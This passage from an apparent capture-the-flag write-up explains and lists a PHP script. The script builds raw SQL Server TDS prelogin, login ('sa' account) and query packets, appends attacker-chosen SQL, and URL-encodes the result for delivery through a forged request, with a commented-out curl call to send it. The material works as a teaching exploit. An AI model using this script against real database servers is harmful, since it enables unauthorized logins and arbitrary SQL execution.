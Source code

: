 Since the password length is the same in the `password.txt`, all I needed is to capture a valid authentication packet with the password of same length. As we see on the sourcecode below, `encryptPassword` does not change the length so you don't need to change password offsets from the header data.

```php
<?php

// Ported from impacket's encryptPassword.
// As you see, encrypting password does not change the size, so it is much easier to craft the packet.
function encryptPassword($password){
    $result = "";
    for($i=0;$i<strlen($password);$i++){
        $tmp = ord($password[$i]);
        // echo $tmp;
        $tmp = ((($tmp & 0x0f) << 4) + (($tmp & 0xf0) >> 4)) ^ 0xa5;
        $result .= chr($tmp);
    }
    return $result;
}

$username = "sa";
$password = $argv[1]; // "d0e7a7fa-6b75-4998-a87d-736170a03110";
$username = mb_convert_encoding($username, "utf-16le");
$password = mb_convert_encoding($password, "utf-16le");
$password = encryptPassword($password);
$password_len = strlen($password) / 2;
$password_len = chr(dechex($password_len));

// From 35C3's Post Challenge
$prelogin_packet  = "\x12\x01\x00\x2f\x00\x00\x01\x00";
$prelogin_packet .= "\x00\x00\x1a\x00\x06\x01\x00\x20";
$prelogin_packet .= "\x00\x01\x02\x00\x21\x00\x01\x03";
$prelogin_packet .= "\x00\x22\x00\x04\x04\x00\x26\x00";
$prelogin_packet .= "\x01\xff\x00\x00\x00\x01\x00\x01";
$prelogin_packet .= "\x02\x00\x00\x00\x00\x00\x00";

// Login Packet
// All you need is to find the offset of the password, and replace the packet data with our input.
$login_packet = hex2bin("1001010b0000010003010000040000740010000000000000939f000000000000f0000008e0010000090400005e0006006a0002006e002400b6000a00ca000900dc000400e1000700ef000a0003010000010203040506030100000301000003010000000000007500620075006e007400750073006100");
$login_packet .= $password;
$login_packet .= hex2bin("6e006f00640065002d006d007300730071006c006c006f00630061006c0068006f0073007400e0000000ff54006500640069006f0075007300750073005f0065006e0067006c00690073006800");

// Sending Query
// This may not be stable sometimes so make sure to adjust your packets a bit.
$query = $argv[2] . ";-- -";
$query = mb_convert_encoding($query, "utf-16le");
$length = strlen($query) + 30 + 2;
$query_packet  = "\x01\x01" . pack("n", $length) . "\x00\x00\x01\x00";
$query_packet .= "\x16\x00\x00\x00\x12\x00\x00\x00";
$query_packet .= "\x02\x00\x00\x00\x00\x00\x00\x00";
$query_packet .= "\x00\x00\x01\x00\x00\x00";
$query_packet .= $query;

$payload = $prelogin_packet . $login_packet . $query_packet;
$result = "" . str_replace("+","%20",urlencode($payload)) . "";
echo $result;
// system("curl '$result'  --output - -m 3 --connect-timeout 3");

?>
```

